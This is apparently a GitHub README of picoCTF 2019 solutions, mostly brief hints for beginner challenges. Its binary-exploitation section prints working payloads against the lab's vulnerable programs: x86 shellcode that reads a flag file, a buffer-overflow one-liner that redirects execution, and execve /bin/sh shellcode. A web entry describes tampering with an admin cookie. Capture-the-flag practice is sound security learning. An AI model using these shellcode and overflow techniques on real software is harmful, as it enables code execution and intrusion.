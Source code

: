 # picoCTF

I will update this as I work through all of the challenges. I highly recommend trying them on your own before reading my solutions.

## General Skills

#### 2 Warm
This type of problem is really easy to solve with python. Open python in your terminal and use ```bin()``` to convert the number to binary.

#### Let's Warm Up
This is another one that is really easy with python. When converting hexadecimal to ASCII my method of choice is to use ```chr()```

#### Warmed Up
Another easy python challenge to convert to decimal ```int('0x3D', 16)```

#### Bases
If you haven't noticed already, python is your friend. This one I solved using ```base64.b64decode(encoded_string)```

#### First Grep
Easy grep, solved using ```cat file | grep "pico"```

#### Resources
Read the source code.

#### strings it
The name gives it away, but use strings to find the flag for this one ```strings strings | grep "pico"```

#### what's a net cat?
This one is super simple. Use ```netcat 2019shell1.picoctf.com 12265``` to connect to the server and retrieve the flag.

## Forensics

#### Glory of the Garden
I went straight to the basics on this one. Flags are often hidden at the end of the image, and since we know the flag format we can search for it with ```strings garden.jpg | grep "pico"```

#### unzip
Another easy one, just unzip.

## Cryptography

#### The Numbers
This is another one where knowing the flag format helps us out significantly. We can see ```{ }``` which is part of our flag format, and can also see that none of the numbers are greater than 26. This probably means it's a simple substitution cypher. To solve this I wrote a python script that takes the alphabet and the provided numbers to print out the flag. ```python3 the_numbers.py```

#### 13
This is a caesar cipher, so just decode like any other.

#### Easy 1
This is vigenere cipher which we can pretty much tell by the provided table. To solve this one I wrote a python script ```python3 easy1.py```

#### caesar
As the name implies this is another caesar cipher. The trick to this one is finding the correct ROT.

## Binary Exploitation

#### handy-shellcode
This wasn't too hard but I always have the most fun with these. There's no overflow required for this challenge, just basic shellcode really. The first thing I did was convert the path of the file to shellcode:

<code>
\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f
</code><br/><br/>
 
Then I completed it by adding the instructions to read the file, and executing the shellcode:
  
<code>
echo -e '\x31\xc9\x51\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f\x31\xc0\xb0\x05\x89\xe3\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe1\x31\xd2\xfe\xc2\xcd\x80\x50\x53\x31\xc0\xb0\x04\x31\xdb\xfe\xc3\xcd\x80\x5b\x58\x83\xf8\x01\x74\xe1\xb0\x06\xcd\x80\xb0\x01\xcd\x80' | ./vuln
</code>

#### practice-run-1
This one is too simple to need an explanation.

#### OverFlow 0
This one requires a basic overflow to retreive the flag. We can see that the buffer is 128 bytes, so we'll feed it more than that to crash the program and retreive the flag.

#### OverFlow 1
The first thing you want to do for this challenge is look over the source code in ```vuln.c```. There are a few things to note here. First of all we can see that the buffer size is 64 bytes. We can see that when we run the program it gives us the return memory address, and also that there is a ```flag()``` function that's never called. It looks like we'll have to use a buffer overflow to execute the ```flag()``` function and get our flag. Another thing to note is what is actually allowing this buffer overflow to happen. Since the program is using ```gets(buf)``` it doesn't actually care about the buffer, it just keeps reading until a new line which ultimately overflows it.

To get started we'll want to get some basic memory information. Since this one gives us the return address as part of the main ```vuln()``` function we can run the program and enter something less than 64 bytes to see normal behaviour. After doing this we can see that the normal address is ```0x8048705```. Now we'll look at the program to find the address of the flag function. To do this I opened the vuln program with ```gdb vuln``` and examined the ```flag()``` function with ```disas flag```. We can now see that this address is ```0x080485e6```. One last thing is that since this is Intel architecture we'll need to convert to little endian before running anything, ```\xe6\x85\x04\x08```.

It took a little bit of playing around to retrieve the flag, but I've provided my code below. One tip while doing this is to alternate the letters that you're using for your buffer. Since the program prints the return memory address after execution, you can use that to see where you're overwriting the memory. In my case I noticed 44 in the address which is ```D (0x44)```, so I knew to shorten my string by a few bytes.

<code>
cat <(echo -e '666666666666666666666666666666666666666666666666666666666666666AAAABBBBCCCCD\xe6\x85\x04\x08') - | ./vuln
</code>

#### slippery-shellcode
I'll add more info later but will add super basic methodology along with my code below.

I used python generate 256 bytes of data, then appended my shellcode using the pwn library ```asm(shellcraft.i386.linux.sh())```

After that I used the same method as OverFlow1 to execute my code.

<code>cat <(echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAjhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80') - | ./vuln</code>


## Web Exploitation

#### Insp3ct0r
This one really doesn't need much info. Read all of the source code.

#### logon
If you view the session cookies for this web app you'll see there is a flag for admin that is currently set to false. If you edit the cookie and set this to true you'll be able to retrive the flag.

#### where are the robots
This is web exploitation 101. Always check the ```robots.txt``` file.

## Reverse Engineering

#### vault-door-training
Source code is your friend.

#### dont-use-client-side
This is a lot like the hackthebox signup page. If you have a very basic understanding of JavaScript you'll be able to decode the 'algorithm' for the password verification.

#### vault-door-1
This challenge involves reading the Java source code and reverse engineering the algorithm being used to validate the password.

#### vault-door-3
To solve this one you need to reverese engineer the Java code used for password validation. I created my Java code to mirror the validation function, then used ```node``` to execute line by line and get the flag. The code for this is in ```vault-door-3.java```.
